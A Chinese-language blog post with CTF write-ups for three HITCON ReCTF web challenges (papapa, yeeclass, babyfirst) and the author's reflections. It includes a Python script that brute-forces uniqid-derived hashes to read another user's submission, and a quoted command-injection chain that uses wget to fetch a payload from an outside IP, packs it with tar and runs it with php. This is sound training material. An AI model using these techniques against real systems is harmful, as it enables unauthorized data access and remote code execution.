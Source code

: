 ```yaml
---
title: HITCON-2023-ReCTF
date: 2023-08-27 20:50:27
tags:
- [CTF]
categories:
cover:
- cover.jpg
---
```

## 緣起

上周被公司派去參加了 hitcon 2023，看到各路大神、後起之秀的超高水準研究以及那充滿夢想(?)的眼神後，
被激勵到，又燃起對 hack 的熱情了。剛好想到自己有個夢想就是挖洞拿獎金達到財富自由，
由於在台上的講者們都曾是 ctf 王，打 ctf 似乎是個鍛鍊挖洞技能的好方法，於是我打算如法炮製，試著打打看，看一年後有沒有機會真的變成挖洞高手，挖洞賺大錢。

在這次 hitcon 2023 我玩了 devcore wargame 和 rectf，{% post_link DEVCORE-Wargame-2023 %} 的部分，在活動的兩天內我只解的掉一題水題...(儘管我仍然花了 5 個小時)，rectf 因為開放時間比較久，費盡洪荒之力總算是解了兩題。在這邊放上 writeup 和簡單的心得，記錄一下。

## ReCTF
顧名思義，這個活動是將從前 hitcon ctf 出過的題目進行復刻。

### papapa
> 環境：[Hitcon-Ctf-2016-Papapa 建置環境](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/)
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-1.png 450 挖勒 %}
一進來頁面就長這樣，啥 input 都沒有，看了 cookie 感覺也沒能控制的點，我無言了...。
通靈了一下子，決定爬文搜 papapa ctf，發現是 hitcon 2016 時 orange 出的題目([連結](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/))，並翻了 orange github 的出題 src，原來解題的關鍵在憑證...。
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-2.png 450 %}

直接 burpsuite 改 host，拿到 flag `FLAG{Nw_u_F0un6_myh05t}`
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-3.png 450 %}

但其實這 flag 傳上去是錯的，窩操，傻住了一下，搞不好是藏在其他頁，重新走整個流程再試一次。
{% img https://files.sakana.tw/HITCON-2023-ReCTF/papapa-4.png 450 %}
這次真的拿到了 `hitcon{n0w_4y_h4v3_th3_f14g}`，原來 flag 不是在 `/index.html` 是在 `/`，還好不是藏很深(呼氣)。

### yeeclass
> 環境：附上 [docker-compose](https://github.com/t510599/My-CTF-Challenges/tree/master/HITCON%20CTF/2022/yeeclass)
{% img https://files.sakana.tw/HITCON-2023-ReCTF/yeeclass-1.png 450 %}
這個題目很佛心的給了你整個 source 包括 docker compose，所以只要 trace code 就好，
我原本是這樣想的...，但我前一小時真的看不出洞。
本以為是打 sql injection，但整份 code 都使用 POD execute，應該不是這問題。
後來才發現，submission.php 中有一個判斷失誤，`PERM_TA` 為 1，`_SESSION`不存在時，其在 boolean 的判斷會當成 0 的樣子，可以繞過拿到 FLAG 的清單 (`homework=1`)
{% img https://files.sakana.tw/HITCON-2023-ReCTF/yeeclass-2.png 450 %}

於是我把 cookie 清掉再讀一次網頁，繞過了，可惜這邊還是看不到 flag 內容
{% img https://files.sakana.tw/HITCON-2023-ReCTF/yeeclass-3.png 450 %}

同時 submission.php 中看到了這一段，我突發奇想: "是不是有辦法 userclass 沒設定但 userid 設定成 `flagholder`"，這樣我就有拿的到 hash 去存取 flag 頁面了？！
``` php
<?php foreach ($result as $row) { ?>
<tr>
    <?php if ((isset($_SESSION["userid"]) && $_SESSION["userclass"] >= PERM_TA) || $row["userid"] == $_SESSION["userid"]) { ?>
    <td><a href="submission.php?hash=<?= $row['hash'] ?>"><?= $row["name"] ?></a></td>
```
於是我轉向 `index.php`，查了一堆資料想了各種可能 (e.g. HPP、race condition)，想破頭了覺得沒辦法做到。
``` php
// 邏輯大概是這樣，一氣呵成，看不出破綻
    $login_query = $pdo->prepare("SELECT * FROM user WHERE username=?");
    $result = $login_query->fetch(PDO::FETCH_ASSOC);
    $_SESSION["userid"] = $result["id"];
    $_SESSION["username"] = $result["username"];
    $_SESSION["userclass"] = $result["class"];
```
最後我破防了，去看出題者的說明，發現要利用 uniuid 直接拿時間戳產生的特性，推出當初用來算 hash 的 uid，學到了...，因為從上一步的繞過，我得到了 flag 的提交時間，可以寫 exploit 了。
exploit 基本上就是參考 php source uniuid 的寫法，其他比較花時間的部分，大概就是想辦法把日期時間轉換成 unixtimestamp 並且 parse 成對應格式，以及一些 POC 的基本驗證了 (我一開始還 parse 錯)
``` python
import http.client
import hashlib
# target url
url = 'rectf.hitcon2023.online'
# The flag submission time
sec = 1692158975
usec = 584096

for  i in range(300,1,-1):
    flag_submit_id = f"flagholder_{sec:x}{usec-i:x}"

    hash = hashlib.sha1(flag_submit_id.encode()).hexdigest()
    print(f"Testing {flag_submit_id}")

    conn = http.client.HTTPConnection(url, 30203)
    # conn = http.client.HTTPConnection(url, 8210)
    conn.request('GET',f'/submission.php?hash={hash}')
    r2 = conn.getresponse()
    data2 = r2.read()
    if(data2 != b'Submission not found.'):
        print(f'Successfully get flag with {hash}')
        print()
        print(data2)
        break
    conn.close()
```
Reference:
- https://stoneapp.tech/cavern/post.php?pid=948

### babyfirst
> 環境: [babyfirst](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2015/babyfirst) (至於當時環境的 php 版本我用 wappalyzer 看記得是 7.1.34，但我想用啥版本都影響不大，反正我用 8.1 好像還是一樣可以打)
<script src="https://gist.github.com/orangetw/cb3487e47d7aaaea4692.js"></script>
(應該沒人認真看這篇，我偷偷 host orange 的 gist 應該不會有人發現吧？)

找資料發現 `preg_match` 有個 `\n` 的 mismatch 洞之後，測了一兩個小時，
確定只能這樣串 `$args = ['AAA\n','mycmd','my parameter\n','mycmd']`，沒其他特殊字元可以繞過了。

串指令的路線
1. 寫入 base64 檔案 + decode base64 檔案 + 執行檔案
   - 如何寫入？狗到的方式都是 `echo xxx > file`，有 `>`
   - `base64 -decode` 有 `-`
2. 下載檔案 + 執行檔案
   - 如何下載？首先 ip `xxx.xxx.xxx.xxx` 就有 `.`

感覺都不行，我低下的想像力不知道怎麼辦了。偷偷看了一下 orange 的 writeup，確定 wget 可以。於是我又想了一個小時，靈機一動 ip 有 decimal 形式，`wget 2130706433(127.0.0.1)`成功下載檔案。
但 `wget` 抓下來的檔名是 `index.html`，就算 302 轉向到別的網頁還是一樣。又卡住了 QQ。
爬文幾乎每篇講 linux 下載檔案的，都是用 curl、wget。而 curl 也是會用到特殊符號。mv 也要輸入檔案名 `index.html`

在爬了一個多小時的文之後，果斷去看 writeup🥹。
```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload
```
看了我還是不懂，php 怎麼可能執行 tar 後的檔案，實際試了一次後，shit，還真的可以直接執行😱，為什麼會有這種 feature？！

除此之外還有
- wget 302 重導向到 ftp，可以解決 index.html 預設檔名的問題。
- busybox ftpget
- twistd telnet

這些解法確實是超出我的理解範圍了。

Reference:
- https://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97

### 其他題
其他題我還沒打，網站就關了，88。

### 心得

#### papapa
資訊收集的部分要再細心一點，都用 nmap 去掃這網站的 ip 了，卻沒注意到憑證這個部分。
另外意外的收穫就是從 orange 架這題目的 src，學到了 apache 的 virtual host 這個 feature，
原來有這種酷東西，感覺架網站時很有用，並且底層是檢查 http header 中的 `host:` 進行轉送的。
Reference:
- https://github.com/orangetw/My-CTF-Web-Challenges#papapa
- https://blog.51cto.com/milenovo/1698875
- https://httpd.apache.org/docs/2.4/vhosts/name-based.html

#### yeeclass
這一個我感覺就差一點，我因為原本的想法失敗就放棄了，但我認為我是有能力觀察到 uniuid 那邊的貓膩的，
這邊沒有堅持住，搥牆，要改進才行。
在說做不到之前，必須好好確認是不是還有其他可以利用的線索還沒觀察到的。

#### babyfirst
看完 writeup 後，我難得慶幸還好我有看，因為我真的想不出來這幾招...學到了。
可能也是因為我對 linux 的 coreutils 太不熟了，希望未來會改善。


